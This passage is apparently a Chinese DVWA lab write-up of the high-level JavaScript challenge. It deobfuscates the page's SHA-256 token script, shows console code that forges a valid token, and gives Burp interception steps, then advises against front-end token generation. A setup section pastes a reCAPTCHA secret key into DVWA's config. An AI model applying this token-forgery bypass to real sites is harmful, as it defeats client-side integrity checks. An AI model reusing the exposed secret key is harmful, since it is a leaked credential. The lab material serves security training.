e;};eval(function(d,e,f,g,h,i){h=function(j){return(j<e?'':h(parseInt(j/e)))+((j=j%e)>0x23?String[b('0x0')](j+0x1d):j[b('0x1')](0x24));};if(!''[b('0x2')](/^/,String)){while(f--){i[h(f)]=g[f]||h(f);}g=[function(k){if('wpA'!==b('0x3')){return i[k];}else{while(f--){i[k(f)]=g[f]||k(f);}g=[function(l){return i[l];}];k=function(){return b('0x4');};f=0x1;}}];h=function(){return b('0x4');};f=0x1;};while(f--){if(g[f]){if(b('0x5')===b('0x6')){return i[h];}else{d=d[b('0x2')](new RegExp('\x5cb'+h(f)+'\x5cb','g'),g[f]);}}}return d;}(b('0x7'),0x3e,0x137,b('0x8')[b('0x9')]('|'),0x0,{}));
```

- 使用`http://deobfuscatejavascript.com/`翻译混淆后的js代码翻译
```js
(function() {
    'use strict';
    var ERROR = 'input is invalid type';
    var WINDOW = typeof window === 'object';
    var root = WINDOW ? window : {};
    if (root.JS_SHA256_NO_WINDOW) {
        WINDOW = false
    }
    var WEB_WORKER = !WINDOW && typeof self === 'object';
    var NODE_JS = !root.JS_SHA256_NO_NODE_JS && typeof process === 'object' && process.versions && process.versions.node;
    if (NODE_JS) {
        root = global
    } else if (WEB_WORKER) {
        root = self
    }
    var COMMON_JS = !root.JS_SHA256_NO_COMMON_JS && typeof module === 'object' && module.exports;
    var AMD = typeof define === 'function' && define.amd;
    var ARRAY_BUFFER = !root.JS_SHA256_NO_ARRAY_BUFFER && typeof ArrayBuffer !== 'undefined';
    var HEX_CHARS = '0123456789abcdef'.split('');
    var EXTRA = [-2147483648, 8388608, 32768, 128];
    var SHIFT = [24, 16, 8, 0];
    var K = [0x428a2f98, 0x71374491, 0xb5c0fbcf, 0xe9b5dba5, 0x3956c25b, 0x59f111f1, 0x923f82a4, 0xab1c5ed5, 0xd807aa98, 0x12835b01, 0x243185be, 0x550c7dc3, 0x72be5d74, 0x80deb1fe, 0x9bdc06a7, 0xc19bf174, 0xe49b69c1, 0xefbe4786, 0x0fc19dc6, 0x240ca1cc, 0x2de92c6f, 0x4a7484aa, 0x5cb0a9dc, 0x76f988da, 0x983e5152, 0xa831c66d, 0xb00327c8, 0xbf597fc7, 0xc6e00bf3, 0xd5a79147, 0x06ca6351, 0x14292967, 0x27b70a85, 0x2e1b2138, 0x4d2c6dfc, 0x53380d13, 0x650a7354, 0x766a0abb, 0x81c2c92e, 0x92722c85, 0xa2bfe8a1, 0xa81a664b, 0xc24b8b70, 0xc76c51a3, 0xd192e819, 0xd6990624, 0xf40e3585, 0x106aa070, 0x19a4c116, 0x1e376c08, 0x2748774c, 0x34b0bcb5, 0x391c0cb3, 0x4ed8aa4a, 0x5b9cca4f, 0x682e6ff3, 0x748f82ee, 0x78a5636f, 0x84c87814, 0x8cc70208, 0x90befffa, 0xa4506ceb, 0xbef9a3f7, 0xc67178f2];
    var OUTPUT_TYPES = ['hex', 'array', 'digest', 'arrayBuffer'];
    var blocks = [];
    if (root.JS_SHA256_NO_NODE_JS || !Array.isArray) {
        Array.isArray = function(obj) {
            return Object.prototype.toString.call(obj) === '[object Array]'
        }
    }
    if (ARRAY_BUFFER && (root.JS_SHA256_NO_ARRAY_BUFFER_IS_VIEW || !ArrayBuffer.isView)) {
        ArrayBuffer.isView = function(obj) {
            return typeof obj === 'object' && obj.buffer && obj.buffer.constructor === ArrayBuffer
        }
    }
    var createOutputMethod = function(outputType, is224) {
            return function(message) {
                return new Sha256(is224, true).update(message)[outputType]()
            }
        };
    var createMethod = function(is224) {
            var method = createOutputMethod('hex', is224);
            if (NODE_JS) {
                method = nodeWrap(method, is224)
            }
            method.create = function() {
                return new Sha256(is224)
            };
            method.update = function(message) {
                return method.create().update(message)
            };
            for (var i = 0; i < OUTPUT_TYPES.length; ++i) {
                var type = OUTPUT_TYPES[i];
                method[type] = createOutputMethod(type, is224)
            }
            return method
        };
    var nodeWrap = function(method, is224) {
            var crypto = eval("require('crypto')");
            var Buffer = eval("require('buffer').Buffer");
            var algorithm = is224 ? 'sha224' : 'sha256';
            var nodeMethod = function(message) {
                    if (typeof message === 'string') {
                        return crypto.createHash(algorithm).update(message, 'utf8').digest('hex')
                    } else {
                        if (message === null || message === undefined) {
                            throw new Error(ERROR)
                        } else if (message.constructor === ArrayBuffer) {
                            message = new Uint8Array(message)
                        }
                    }
                    if (Array.isArray(message) || ArrayBuffer.isView(message) || message.constructor === Buffer) {
                        return crypto.createHash(algorithm).update(new Buffer(message)).digest('hex')
                    } else {
                        return method(message)
                    }
                };
            return nodeMethod
        };
    var createHmacOutputMethod = function(outputType, is224) {
            return function(key, message) {
                return new HmacSha256(key, is224, true).update(message)[outputType]()
            }
        };
    var createHmacMethod = function(is224) {
            var method = createHmacOutputMethod('hex', is224);
            method.create = function(key) {
                return new HmacSha256(key, is224)
            };
            method.update = function(key, message) {
                return method.create(key).update(message)
            };
            for (var i = 0; i < OUTPUT_TYPES.length; ++i) {
                var type = OUTPUT_TYPES[i];
                method[type] = createHmacOutputMethod(type, is224)
            }
            return method
        };

    function Sha256(is224, sharedMemory) {
        if (sharedMemory) {
            blocks[0] = blocks[16] = blocks[1] = blocks[2] = blocks[3] = blocks[4] = blocks[5] = blocks[6] = blocks[7] = blocks[8] = blocks[9] = blocks[10] = blocks[11] = blocks[12] = blocks[13] = blocks[14] = blocks[15] = 0;
            this.blocks = blocks
        } else {
            this.blocks = [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
        }
        if (is224) {
            this.h0 = 0xc1059ed8;
            this.h1 = 0x367cd507;
            this.h2 = 0x3070dd17;
            this.h3 = 0xf70e5939;
            this.h4 = 0xffc00b31;
            this.h5 = 0x68581511;
            this.h6 = 0x64f98fa7;
            this.h7 = 0xbefa4fa4
        } else {
            this.h0 = 0x6a09e667;
            this.h1 = 0xbb67ae85;
            this.h2 = 0x3c6ef372;
            this.h3 = 0xa54ff53a;
            this.h4 = 0x510e527f;
            this.h5 = 0x9b05688c;
            this.h6 = 0x1f83d9ab;
            this.h7 = 0x5be0cd19
        }
        this.block = this.start = this.bytes = this.hBytes = 0;
        this.finalized = this.hashed = false;
        this.first = true;
        this.is224 = is224
    }
    Sha256.prototype.update = function(message) {
        if (this.finalized) {
            return
        }
        var notString, type = typeof message;
        if (type !== 'string') {
            if (type === 'object') {
                if (message === null) {
                    throw new Error(ERROR)
                } else if (ARRAY_BUFFER && message.constructor === ArrayBuffer) {
                    message = new Uint8Array(message)
                } else if (!Array.isArray(message)) {
                    if (!ARRAY_BUFFER || !ArrayBuffer.isView(message)) {
                        throw new Error(ERROR)
                    }
                }
            } else {
                throw new Error(ERROR)
            }
            notString = true
        }
        var code, index = 0,
            i, length = message.length,
            blocks = this.blocks;
        while (index < length) {
            if (this.hashed) {
                this.hashed = false;
                blocks[0] = this.block;
                blocks[16] = blocks[1] = blocks[2] = blocks[3] = blocks[4] = blocks[5] = blocks[6] = blocks[7] = blocks[8] = blocks[9] = blocks[10] = blocks[11] = blocks[12] = blocks[13] = blocks[14] = blocks[15] = 0
            }
            if (notString) {
                for (i = this.start; index < length && i < 64; ++index) {
                    blocks[i >> 2] |= message[index] << SHIFT[i++ & 3]
                }
            } else {
                for (i = this.start; index < length && i < 64; ++index) {
                    code = message.charCodeAt(index);
                    if (code < 0x80) {
                        blocks[i >> 2] |= code << SHIFT[i++ & 3]
                    } else if (code < 0x800) {
                        blocks[i >> 2] |= (0xc0 | (code >> 6)) << SHIFT[i++ & 3];
                        blocks[i >> 2] |= (0x80 | (code & 0x3f)) << SHIFT[i++ & 3]
                    } else if (code < 0xd800 || code >= 0xe000) {
                        blocks[i >> 2] |= (0xe0 | (code >> 12)) << SHIFT[i++ & 3];
                        blocks[i >> 2] |= (0x80 | ((code >> 6) & 0x3f)) << SHIFT[i++ & 3];
                        blocks[i >> 2] |= (0x80 | (code & 0x3f)) << SHIFT[i++ & 3]
                    } else {
                        code = 0x10000 + (((code & 0x3ff) << 10) | (message.charCodeAt(++index) & 0x3ff));
                        blocks[i >> 2] |= (0xf0 | (code >> 18)) << SHIFT[i++ & 3];
                        blocks[i >> 2] |= (0x80 | ((code >> 12) & 0x3f)) << SHIFT[i++ & 3];
                        blocks[i >> 2] |= (0x80 | ((code >> 6) & 0x3f)) << SHIFT[i++ & 3];
                        blocks[i >> 2] |= (0x80 | (code & 0x3f)) << SHIFT[i++ & 3]
                    }
                }
            }
            this.lastByteIndex = i;
            this.bytes += i - this.start;
            if (i >= 64) {
                this.block = blocks[16];
                this.start = i - 64;
                this.hash();
                this.hashed = true
            } else {
                this.start = i
            }
        }
        if (this.bytes > 4294967295) {
            this.hBytes += this.bytes / 4294967296 << 0;
            this.bytes = this.bytes % 4294967296
        }
        return this
    };
    Sha256.prototype.finalize = function() {
        if (this.finalized) {
            return
        }
        this.finalized = true;
        var blocks = this.blocks,
            i = this.lastByteIndex;
        blocks[16] = this.block;
        blocks[i >> 2] |= EXTRA[i & 3];
        this.block = blocks[16];
        if (i >= 56) {
            if (!this.hashed) {
                this.hash()
            }
            blocks[0] = this.block;
            blocks[16] = blocks[1] = blocks[2] = blocks[3] = blocks[4] = blocks[5] = blocks[6] = blocks[7] = blocks[8] = blocks[9] = blocks[10] = blocks[11] = blocks[12] = blocks[13] = blocks[14] = blocks[15] = 0
        }
        blocks[14] = this.hBytes << 3 | this.bytes >>> 29;
        blocks[15] = this.bytes << 3;
        this.hash()
    };
    Sha256.prototype.hash = function() {
        var a = this.h0,
            b = this.h1,
            c = this.h2,
            d = this.h3,
            e = this.h4,
            f = this.h5,
            g = this.h6,
            h = this.h7,
            blocks = this.blocks,
            j, s0, s1, maj, t1, t2, ch, ab, da, cd, bc;
        for (j = 16; j < 64; ++j) {
            t1 = blocks[j - 15];
            s0 = ((t1 >>> 7) | (t1 << 25)) ^ ((t1 >>> 18) | (t1 << 14)) ^ (t1 >>> 3);
            t1 = blocks[j - 2];
            s1 = ((t1 >>> 17) | (t1 << 15)) ^ ((t1 >>> 19) | (t1 << 13)) ^ (t1 >>> 10);
            blocks[j] = blocks[j - 16] + s0 + blocks[j - 7] + s1 << 0
        }
        bc = b & c;
        for (j = 0; j < 64; j += 4) {
            if (this.first) {
                if (this.is224) {
                    ab = 300032;
                    t1 = blocks[0] - 1413257819;
                    h = t1 - 150054599 << 0;
                    d = t1 + 24177077 << 0
                } else {
                    ab = 704751109;
                    t1 = blocks[0] - 210244248;
                    h = t1 - 1521486534 << 0;
                    d = t1 + 143694565 << 0
                }
                this.first = false
            } else {
                s0 = ((a >>> 2) | (a << 30)) ^ ((a >>> 13) | (a << 19)) ^ ((a >>> 22) | (a << 10));
                s1 = ((e >>> 6) | (e << 26)) ^ ((e >>> 11) | (e << 21)) ^ ((e >>> 25) | (e << 7));
                ab = a & b;
                maj = ab ^ (a & c) ^ bc;
                ch = (e & f) ^ (~e & g);
                t1 = h + s1 + ch + K[j] + blocks[j];
                t2 = s0 + maj;
                h = d + t1 << 0;
                d = t1 + t2 << 0
            }
            s0 = ((d >>> 2) | (d << 30)) ^ ((d >>> 13) | (d << 19)) ^ ((d >>> 22) | (d << 10));
            s1 = ((h >>> 6) | (h << 26)) ^ ((h >>> 11) | (h << 21)) ^ ((h >>> 25) | (h << 7));
            da = d & a;
            maj = da ^ (d & b) ^ ab;
            ch = (h & e) ^ (~h & f);
            t1 = g + s1 + ch + K[j + 1] + blocks[j + 1];
            t2 = s0 + maj;
            g = c + t1 << 0;
            c = t1 + t2 << 0;
            s0 = ((c >>> 2) | (c << 30)) ^ ((c >>> 13) | (c << 19)) ^ ((c >>> 22) | (c << 10));
            s1 = ((g >>> 6) | (g << 26)) ^ ((g >>> 11) | (g << 21)) ^ ((g >>> 25) | (g << 7));
            cd = c & d;
            maj = cd ^ (c & a) ^ da;
            ch = (g & h) ^ (~g & e);
            t1 = f + s1 + ch + K[j + 2] + blocks[j + 2];
            t2 = s0 + maj;
            f = b + t1 << 0;
            b = t1 + t2 << 0;
            s0 = ((b >>> 2) | (b << 30)) ^ ((b >>> 13) | (b << 19)) ^ ((b >>> 22) | (b << 10));
            s1 = ((f >>> 6) | (f << 26)) ^ ((f >>> 11) | (f << 21)) ^ ((f >>> 25) | (f << 7));
            bc = b & c;
            maj = bc ^ (b & d) ^ cd;
            ch = (f & g) ^ (~f & h);
            t1 = e + s1 + ch + K[j + 3] + blocks[j + 3];
            t2 = s0 + maj;
            e = a + t1 << 0;
            a = t1 + t2 << 0
        }
        this.h0 = this.h0 + a << 0;
        this.h1 = this.h1 + b << 0;
        this.h2 = this.h2 + c << 0;
        this.h3 = this.h3 + d << 0;
        this.h4 = this.h4 + e << 0;
        this.h5 = this.h5 + f << 0;
        this.h6 = this.h6 + g << 0;
        this.h7 = this.h7 + h << 0
    };
    Sha256.prototype.hex = function() {
        this.finalize();
        var h0 = this.h0,
            h1 = this.h1,
            h2 = this.h2,
            h3 = this.h3,
            h4 = this.h4,
            h5 = this.h5,
            h6 = this.h6,
            h7 = this.h7;
        var hex = HEX_CHARS[(h0 >> 28) & 0x0F] + HEX_CHARS[(h0 >> 24) & 0x0F] + HEX_CHARS[(h0 >> 20) & 0x0F] + HEX_CHARS[(h0 >> 16) & 0x0F] + HEX_CHARS[(h0 >> 12) & 0x0F] + HEX_CHARS[(h0 >> 8) & 0x0F] + HEX_CHARS[(h0 >> 4) & 0x0F] + HEX_CHARS[h0 & 0x0F] + HEX_CHARS[(h1 >> 28) & 0x0F] + HEX_CHARS[(h1 >> 24) & 0x0F] + HEX_CHARS[(h1 >> 20) & 0x0F] + HEX_CHARS[(h1 >> 16) & 0x0F] + HEX_CHARS[(h1 >> 12) & 0x0F] + HEX_CHARS[(h1 >> 8) & 0x0F] + HEX_CHARS[(h1 >> 4) & 0x0F] + HEX_CHARS[h1 & 0x0F] + HEX_CHARS[(h2 >> 28) & 0x0F] + HEX_CHARS[(h2 >> 24) & 0x0F] + HEX_CHARS[(h2 >> 20) & 0x0F] + HEX_CHARS[(h2 >> 16) & 0x0F] + HEX_CHARS[(h2 >> 12) & 0x0F] + HEX_CHARS[(h2 >> 8) & 0x0F] + HEX_CHARS[(h2 >> 4) & 0x0F] + HEX_CHARS[h2 & 0x0F] + HEX_CHARS[(h3 >> 28) & 0x0F] + HEX_CHARS[(h3 >> 24) & 0x0F] + HEX_CHARS[(h3 >> 20) & 0x0F] + HEX_CHARS[(h3 >> 16) & 0x0F] + HEX_CHARS[(h3 >> 12) & 0x0F] + HEX_CHARS[(h3 >> 8) & 0x0F] + HEX_CHARS[(h3 >> 4) & 0x0F] + HEX_CHARS[h3 & 0x0F] + HEX_CHARS[(h4 >> 28) & 0x0F] + HEX_CHARS[(h4 >> 24) & 0x0F] + HEX_CHARS[(h4 >> 20) & 0x0F] + HEX_CHARS[(h4 >> 16) & 0x0F] + HEX_CHARS[(h4 >> 12) & 0x0F] + HEX_CHARS[(h4 >> 8) & 0x0F] + HEX_CHARS[(h4 >> 4) & 0x0F] + HEX_CHARS[h4 & 0x0F] + HEX_CHARS[(h5 >> 28) & 0x0F] + HEX_CHARS[(h5 >> 24) & 0x0F] + HEX_CHARS[(h5 >> 20) & 0x0F] + HEX_CHARS[(h5 >> 16) & 0x0F] + HEX_CHARS[(h5 >> 12) & 0x0F] + HEX_CHARS[(h5 >> 8) & 0x0F] + HEX_CHARS[(h5 >> 4) & 0x0F] + HEX_CHARS[h5 & 0x0F] + HEX_CHARS[(h6 >> 28) & 0x0F] + HEX_CHARS[(h6 >> 24) & 0x0F] + HEX_CHARS[(h6 >> 20) & 0x0F] + HEX_CHARS[(h6 >> 16) & 0x0F] + HEX_CHARS[(h6 >> 12) & 0x0F] + HEX_CHARS[(h6 >> 8) & 0x0F] + HEX_CHARS[(h6 >> 4) & 0x0F] + HEX_CHARS[h6 & 0x0F];
        if (!this.is224) {
            hex += HEX_CHARS[(h7 >> 28) & 0x0F] + HEX_CHARS[(h7 >> 24) & 0x0F] + HEX_CHARS[(h7 >> 20) & 0x0F] + HEX_CHARS[(h7 >> 16) & 0x0F] + HEX_CHARS[(h7 >> 12) & 0x0F] + HEX_CHARS[(h7 >> 8) & 0x0F] + HEX_CHARS[(h7 >> 4) & 0x0F] + HEX_CHARS[h7 & 0x0F]
        }
        return hex
    };
    Sha256.prototype.toString = Sha256.prototype.hex;
    Sha256.prototype.digest = function() {
        this.finalize();
        var h0 = this.h0,
            h1 = this.h1,
            h2 = this.h2,
            h3 = this.h3,
            h4 = this.h4,
            h5 = this.h5,
            h6 = this.h6,
            h7 = this.h7;
        var arr = [(h0 >> 24) & 0xFF, (h0 >> 16) & 0xFF, (h0 >> 8) & 0xFF, h0 & 0xFF, (h1 >> 24) & 0xFF, (h1 >> 16) & 0xFF, (h1 >> 8) & 0xFF, h1 & 0xFF, (h2 >> 24) & 0xFF, (h2 >> 16) & 0xFF, (h2 >> 8) & 0xFF, h2 & 0xFF, (h3 >> 24) & 0xFF, (h3 >> 16) & 0xFF, (h3 >> 8) & 0xFF, h3 & 0xFF, (h4 >> 24) & 0xFF, (h4 >> 16) & 0xFF, (h4 >> 8) & 0xFF, h4 & 0xFF, (h5 >> 24) & 0xFF, (h5 >> 16) & 0xFF, (h5 >> 8) & 0xFF, h5 & 0xFF, (h6 >> 24) & 0xFF, (h6 >> 16) & 0xFF, (h6 >> 8) & 0xFF, h6 & 0xFF];
        if (!this.is224) {
            arr.push((h7 >> 24) & 0xFF, (h7 >> 16) & 0xFF, (h7 >> 8) & 0xFF, h7 & 0xFF)
        }
        return arr
    };
    Sha256.prototype.array = Sha256.prototype.digest;
    Sha256.prototype.arrayBuffer = function() {
        this.finalize();
        var buffer = new ArrayBuffer(this.is224 ? 28 : 32);
        var dataView = new DataView(buffer);
        dataView.setUint32(0, this.h0);
        dataView.setUint32(4, this.h1);
        dataView.setUint32(8, this.h2);
        dataView.setUint32(12, this.h3);
        dataView.setUint32(16, this.h4);
        dataView.setUint32(20, this.h5);
        dataView.setUint32(24, this.h6);
        if (!this.is224) {
            dataView.setUint32(28, this.h7)
        }
        return buffer
    };

    function HmacSha256(key, is224, sharedMemory) {
        var i, type = typeof key;
        if (type === 'string') {
            var bytes = [],
                length = key.length,
                index = 0,
                code;
            for (i = 0; i < length; ++i) {
                code = key.charCodeAt(i);
                if (code < 0x80) {
                    bytes[index++] = code
                } else if (code < 0x800) {
                    bytes[index++] = (0xc0 | (code >> 6));
                    bytes[index++] = (0x80 | (code & 0x3f))
                } else if (code < 0xd800 || code >= 0xe000) {
                    bytes[index++] = (0xe0 | (code >> 12));
                    bytes[index++] = (0x80 | ((code >> 6) & 0x3f));
                    bytes[index++] = (0x80 | (code & 0x3f))
                } else {
                    code = 0x10000 + (((code & 0x3ff) << 10) | (key.charCodeAt(++i) & 0x3ff));
                    bytes[index++] = (0xf0 | (code >> 18));
                    bytes[index++] = (0x80 | ((code >> 12) & 0x3f));
                    bytes[index++] = (0x80 | ((code >> 6) & 0x3f));
                    bytes[index++] = (0x80 | (code & 0x3f))
                }
            }
            key = bytes
        } else {
            if (type === 'object') {
                if (key === null) {
                    throw new Error(ERROR)
                } else if (ARRAY_BUFFER && key.constructor === ArrayBuffer) {
                    key = new Uint8Array(key)
                } else if (!Array.isArray(key)) {
                    if (!ARRAY_BUFFER || !ArrayBuffer.isView(key)) {
                        throw new Error(ERROR)
                    }
                }
            } else {
                throw new Error(ERROR)
            }
        }
        if (key.length > 64) {
            key = (new Sha256(is224, true)).update(key).array()
        }
        var oKeyPad = [],
            iKeyPad = [];
        for (i = 0; i < 64; ++i) {
            var b = key[i] || 0;
            oKeyPad[i] = 0x5c ^ b;
            iKeyPad[i] = 0x36 ^ b
        }
        Sha256.call(this, is224, sharedMemory);
        this.update(iKeyPad);
        this.oKeyPad = oKeyPad;
        this.inner = true;
        this.sharedMemory = sharedMemory
    }
    HmacSha256.prototype = new Sha256();
    HmacSha256.prototype.finalize = function() {
        Sha256.prototype.finalize.call(this);
        if (this.inner) {
            this.inner = false;
            var innerHash = this.array();
            Sha256.call(this, this.is224, this.sharedMemory);
            this.update(this.oKeyPad);
            this.update(innerHash);
            Sha256.prototype.finalize.call(this)
        }
    };
    var exports = createMethod();
    exports.sha256 = exports;
    exports.sha224 = createMethod(true);
    exports.sha256.hmac = createHmacMethod();
    exports.sha224.hmac = createHmacMethod(true);
    if (COMMON_JS) {
        module.exports = exports
    } else {
        root.sha256 = exports.sha256;
        root.sha224 = exports.sha224;
        if (AMD) {
            define(function() {
                return exports
            })
        }
    }
})();

function do_something(e) {
    for (var t = "", n = e.length - 1; n >= 0; n--) t += e[n];
    return t
}
function token_part_3(t, y = "ZZ") {
    document.getElementById("token").value = sha256(document.getElementById("token").value + y)
}
function token_part_2(e = "YY") {
    document.getElementById("token").value = sha256(e + document.getElementById("token").value)
}
function token_part_1(a, b) {
    document.getElementById("token").value = do_something(document.getElementById("phrase").value)
}
document.getElementById("phrase").value = "";
setTimeout(function() {
    token_part_2("XX")
}, 300);
document.getElementById("send").addEventListener("click", token_part_3);
token_part_1("ABCD", 44);
```
- 函数调用顺序及生成token的步骤
    - 1、执行token_part_1(a,b)，取phrase值并进行字符串翻转处理
    - 2、延迟300ms,执行token_part_2("XX"),传入参数字符串’XX’和token值拼接并调用sha256()加密
    - 3、点击按钮的时候执行 token_part_3,将token值和字符串’ZZ’拼接并调用sha256()加密，得到最终的token。  

#### 漏洞利用
- 思路：输入success，控制台上执行token_part_1(1,2)和 token_part_2(“XX”)，然后点击按钮，token_part_3就会被执行。
- F12打开控制台，将翻译JS代码中关于sha256算法定义代码输入，实现初始化，方便后面直接调用sha256()</b>
- 按照上述分析,得到token</b>
```js
e="success";
for (var t ="",n=e.length-1;n>=0;n--)
    t+=e[n];
    t=sha256("XX"+t);
    token=sha256(t+"ZZ");
```
- `token`=`ec7ef8687050b6fe803867ea696734c67b541dfafb286a0b1239f42ac5b0aa84`
- 回到页面，填入success后用burp拦截，修改token为刚才得到的值，页面显示`well done`攻击成功</b></b>

#### 漏洞防护
- impossible告诉我们
  >You can never trust anything that comes from the user or prevent them from messing with it and so there is no impossible level. 

    - 你永远不能信任用户，必须假设发送给用户的任何代码都可以被操纵或绕过；因此没有不可能的级别。
- 所以，token不要靠前端JS生成。
## 问题与解决方法
1. `reCAPTCHA key: Missing`
- 在`https://www.google.com/recaptcha/admin/create`自行生成密码
```bash
Site key:
6LdJJlUUAAAAAH1Q6cTpZRQ2Ah8VpyzhnffD0mBb

Secret key:
6LdJJlUUAAAAAM2a3HrgzLczqdYp4g05EqDs-W4K
```
- 编辑配置文件`dvwa/config/config.inc.php`
```shell
$_DVWA[ 'recaptcha_public_key' ] = '6LdJJlUUAAAAAH1Q6cTpZRQ2Ah8VpyzhnffD0mBb';
$_DVWA[ 'recaptcha_private_key' ] = '6LdJJlUUAAAAAM2a3HrgzLczqdYp4g05EqDs-W4K';
```

2. `allow_url_include:diabled，allow_url_fopen:diabled`
- 编辑配置文件`/etc/php/7.0/apache2/php.ini`并作如下修改</b>
- 重启apache2服务 `service apache2 restart`

3. `PHP module gd: Missing - Only an issue if you want to play with captchas`
```shell
apt-get install php-gd
```


## 参考资料
- [DVWA教程](https://blog.csdn.net/baidu_29244931/article/details/107805861)
